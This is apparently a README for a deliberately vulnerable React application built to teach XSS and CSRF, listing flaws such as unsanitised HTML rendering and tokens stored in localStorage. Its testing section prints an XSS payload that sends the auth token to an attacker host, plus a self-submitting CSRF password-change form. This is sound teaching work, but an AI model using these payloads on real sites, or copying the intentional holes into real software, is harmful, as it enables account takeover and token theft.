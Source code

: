 # Vulnerable React.js Application

This application was intentionally designed with security vulnerabilities for educational purposes to demonstrate XSS and CSRF attacks. It serves as a practical example for understanding web security vulnerabilities in modern React applications.

## Security Warning

**DO NOT USE THIS APPLICATION IN PRODUCTION OR EXPOSE IT TO THE INTERNET**

This application contains intentional security vulnerabilities including:
- Cross-Site Scripting (XSS) vulnerabilities
- Cross-Site Request Forgery (CSRF) vulnerabilities  
- Insecure authentication token storage

## Features

- User authentication (login/register)
- Profile management
- Password changing functionality
- Comment system

## Vulnerabilities Overview

### XSS Vulnerabilities

1. **Unsafe use of `dangerouslySetInnerHTML`**: The application directly renders user input using React's `dangerouslySetInnerHTML` without sanitization.
   - Location: `Profile.tsx` in the bio preview and comments sections

2. **Token storage in localStorage**: Authentication tokens are stored in localStorage, making them accessible to JavaScript and vulnerable to theft through XSS.
   - Location: `AuthContext.tsx`

### CSRF Vulnerabilities

1. **No CSRF Tokens**: The application does not implement CSRF tokens for state-changing operations.
   - Location: `ChangePassword.tsx` and other form submissions

2. **No SameSite Cookie Attributes**: Authentication cookies don't have SameSite attributes, making them vulnerable to CSRF attacks.

## Installation and Running

```bash
# Install dependencies
npm install

# Run the application
npm start
```

## Testing the Vulnerabilities

### XSS Exploitation

You can test XSS vulnerabilities by entering the following payloads:

1. In the bio or comment fields:
```
<img src="x" onerror="alert('XSS')">
```

2. Token stealing payload:
```
<img src="x" onerror="fetch('https://attacker.com/steal?token='+localStorage.getItem('authToken'))">
```

### CSRF Exploitation

Create an HTML file on a separate server with the following content to test CSRF:

```html
<html>
  <body>
    <form action="http://localhost:3000/api/change-password" method="POST" id="csrf-form">
      <input type="hidden" name="newPassword" value="hackedpassword" />
    </form>
    <script>
      document.getElementById("csrf-form").submit();
    </script>
  </body>
</html>
```

## License

This project is for educational purposes only.
